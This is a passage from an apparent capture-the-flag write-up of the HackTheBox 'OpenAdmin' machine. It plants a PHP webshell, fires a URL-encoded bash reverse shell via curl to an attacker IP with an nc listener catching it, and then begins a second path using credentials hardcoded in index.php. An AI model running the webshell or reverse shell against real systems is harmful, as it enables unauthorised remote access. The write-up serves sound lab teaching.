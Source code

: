 ### Path 1: Webshell

The initial way I solved this was to write a webshell into the root directory
for this folder:

    
    
    jimmy@openadmin:/var/www/internal$ echo '<?php system($_GET["0xdf"]); ?>'  
    <?php system($_GET["0xdf"]); ?>                   
    jimmy@openadmin:/var/www/internal$ echo '<?php system($_GET["0xdf"]); ?>' > 0xdf.php  
    

Now I can access that and get execution as joanna:

    
    
    root@kali# curl http://127.0.0.1:52846/0xdf.php?0xdf=id
    uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
    

To get a shell, I can start `nc` and curl:

    
    
    root@kali# curl 'http://127.0.0.1:52846/0xdf.php?0xdf=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.11/443%200%3E%261%27'
    

Shell comes instantly:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.171.
    Ncat: Connection from 10.10.10.171:40556.
    bash: cannot set terminal process group (1004): Inappropriate ioctl for device
    bash: no job control in this shell
    joanna@openadmin:/var/www/internal$ id
    uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
    

### Path 2: Log In and SSH

#### Log In and Get Key

The site above required username and password. If I check `index.php`, I can
see the hardcoded username and password in the php source:

    
    
    <?php
      $msg = '';
      
      if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
        if ($_POST['username'] == 'joanna' && $_POST['password'] == 'joanna') {
          $_SESSION['username'] = 'joanna';
          header("Location: /main.php");
        } else {             
          $msg = 'Wrong username or password.';
        }
      }
    ?>
    